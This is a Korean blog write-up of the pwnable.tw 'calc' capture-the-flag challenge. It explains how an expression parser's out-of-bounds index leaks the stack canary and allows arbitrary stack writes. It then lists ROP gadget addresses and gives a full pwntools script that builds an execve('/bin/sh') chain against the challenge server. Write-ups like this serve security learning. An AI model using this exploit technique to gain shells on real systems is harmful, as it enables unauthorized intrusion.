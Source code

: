```yaml
---
layout: post
title: "[pwnable.tw] calc 풀이"
date: 2018-06-08 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```

>## calc [150 pts]
### Have you ever use Microsoft calculator?
### `nc chall.pwnable.tw 10100`
### [calc](https://pwnable.tw/static/chall/calc)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/calc/01.png)
{: refdef}

32bit, 카나리, NX 으아아아

{: refdef: style="text-align: center;"}
![main](/img/pwnable.tw/calc/02.png)
{: refdef}

`calc` 으에에에

{: refdef: style="text-align: center;"}
![calc](/img/pwnable.tw/calc/03.png)
{: refdef}

구오오오

`get_expr`, `init_pool`, `parse_expr`안에 뭐 많고 그 안에도 또 뭐 있고 또 있고...

사실 분석하기 싫어서 쪼꼼만하다 아무 값이나 넣어봤어요.

- - -
# 0x01. 이상한거 찾기

{: refdef: style="text-align: center;"}
![get_expr](/img/pwnable.tw/calc/04.png)
{: refdef}

`+`, `-`, `*`, `/`, `%`, `0-9` 빼고는 들어가지도 않아서 적당히 넣어보면 뭐든 나오겠죠.

- 1024 딱 맞춰서 넣기

- 피연산자 지우기

- 짱 큰 값 만들기 (int형 범위 넘기기)

다 해봤는데 딱히 눈에 띄는건 없더라구요.

{: refdef: style="text-align: center;"}
![core dumped](/img/pwnable.tw/calc/05.png)
{: refdef}

아무 생각없이 넣어보다 이상한 걸 발견했어여 위 사진처럼 `+11111` 넣으니까 `core dumped`뜸!

{: refdef: style="text-align: center;"}
![SIGSEGV](/img/pwnable.tw/calc/06.png)
{: refdef}

`core`까보면 `mov eax, [ebp+eax*4+buf]`에서 터진걸 알 수 있어요.

레지스터는 이런 상태에요. `eax` = `0x2b66`, `ebp` = `0xffa945d8`

`eax`값이 뭔가 이상하지 않나요? 주소도 아니고 fd같은거도 아니고

일단 터진 부분이 c언어에서 아래 부분이에요.

```c
    if ( parse_expr(&arr, &head) )
    {
      printf(&d, buf[head - 1]);
      fflush(stdout);
    }
```

저기 `printf` 인자에서 터졌는데 `head-1`에 있는 값이 결과 값이네요!

그럼 `eax*4`는 `eax`가 index 역할을 하고 `*4`는 int형이라서 곱해주겠네요.

`0x2b66`는 10진수로 바꿔보면 **11110**입니다!

`+숫자`를 넣으면 `buf[숫자-1]`을 화면에 출력하는 거 같아요.

```c
  int head; // [esp+18h] [ebp-5A0h]
  int buf[100]; // [esp+1Ch] [ebp-59Ch]
  char arr; // [esp+1ACh] [ebp-40Ch]
  unsigned int canary; // [esp+5ACh] [ebp-Ch]
```

`canary`를 출력해서 테스트 해볼게요.

`buf`가 `ebp-0x59c`, `canary`가 `ebp-0xc`니까 둘 사이에 거리는 `0x590`네요.

10진수로 바꾸면 `1424`인데 나중에 `4`를 곱해주니까 지금 나누면 `356`이 돼요. 마지막으로 `-1`있어서 `357`이네요.

{: refdef: style="text-align: center;"}
![canary_leak](/img/pwnable.tw/calc/07.png)
{: refdef}

원하던대로 `ebp-0xc`의 값이 출력돼요.

- - -
# 0x02. 공격 방법

이 문제는 분석하면서 `bof`도 없고 힙 영역도 뭐 없었어요.

그런데 **0x01**에서 나온 값 역추적해보니까 계산과정 같은데서 특이한걸 발견했어요.

{: refdef: style="text-align: center;"}
![func_add](/img/pwnable.tw/calc/08.png)
{: refdef} 

`+357` 넣었을 때 계산하는 부분인데 `eax`값이 십진수로 `357`입니다! 그리고 계산 결과 값은 `0x166`이겠죠.

{: refdef: style="text-align: center;"}
![canary_leak](/img/pwnable.tw/calc/09.png)
{: refdef}

결과 값이 `0x166`으로 저장돼 있는데 그 옆에 `0x165`도 남아있는걸 볼 수 있어요.

아마 마지막으로 계산에 사용한 값은 저렇게 남는거 같은데 이걸 이용하면 int범위 내에서 특정 주소나 그런걸 넣을 수 있을거 같아요.

- - -
# 0x03. 페이로드 작성

`NX`가 걸려있어서 쉘 코드를 넣어 실행시키진 못하고 대신 `gadget`을 사용해서 `system("/bin/sh\0")`를 실행시킬 거에요.

```
AAAA = 0x41414141

xor_eax = 0x0808c980

pop_eax = 0x0805c34b
pop_edx = 0x080701aa
pop_ebx = 0x0807cb40
pop_ecx_ebx = 0x80701d1

eax_to_edx = 0x08090976

int_0x80 = 0x08049a21

_bin = 0x6e69622f
__sh = 0x0068732f

_bss = 0x080EE360

shell = [pop_edx, _bss, pop_eax, _bin, eax_to_edx, AAAA, pop_edx, _bss+4, pop_eax, __sh, eax_to_edx, AAAA, pop_edx, _bss+8, xor_eax, eax_to_edx, AAAA, pop_ecx_ebx, _bss+8, _bss, pop_eax, 0xb, pop_ebx, _bss, int_0x80]
```

뭔가 많아보이는데 생각보다 간단해요.

`pop_edx, _bss, pop_eax, _bin, eax_to_edx, AAAA, pop_edx, _bss+4, pop_eax, __sh, eax_to_edx, AAAA` : `bss`에 `/bin/sh`넣기

`pop_edx, _bss+8, xor_eax, eax_to_edx, AAAA` : `bss+8`에 `0x0` 넣기

`pop_ecx_ebx, _bss+8, _bss, pop_eax, 0xb, pop_ebx, _bss, int_0x80` : `ecx`에 `0x0`, `eax`에 `0xb`, `ebx`에 `bss` 넣고 `int 0x80`실행

- - -
# 0x04. 익스플로잇

왜 코드를 뒤에서부터 작성했냐면 제가 작성한 코드는 연산 결괏값이 아닌 연산에 사용된 값을 사용해서에요.

```python
from pwn import *
#context.log_level = "debug"

#HOST = "localhost"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10100

s = remote(HOST, PORT)

elf = ELF("./calc")
#libc = ELF("./")
pause()

AAAA = 0x41414141

xor_eax = 0x0808c980

pop_eax = 0x0805c34b
pop_edx = 0x080701aa
pop_ebx = 0x0807cb40
pop_ecx_ebx = 0x80701d1

eax_to_edx = 0x08090976

int_0x80 = 0x08049a21

_bin = 0x6e69622f
__sh = 0x0068732f

_bss = 0x080EE360

shell = [pop_edx, _bss, pop_eax, _bin, eax_to_edx, AAAA, pop_edx, _bss+4, pop_eax, __sh, eax_to_edx, AAAA, pop_edx, _bss+8, xor_eax, eax_to_edx, AAAA, pop_ecx_ebx, _bss+8, _bss, pop_eax, 0xb, pop_ebx, _bss, int_0x80]

def insert(index, data):
	payload = "+" + str(index) + "+"
	payload += str(data)
	s.sendline(payload)
	s.recv()

for i in range(len(shell)):
	index = 360 + (len(shell) - i - 1)
	insert(index, shell[len(shell) - i - 1])

s.interactive()
```
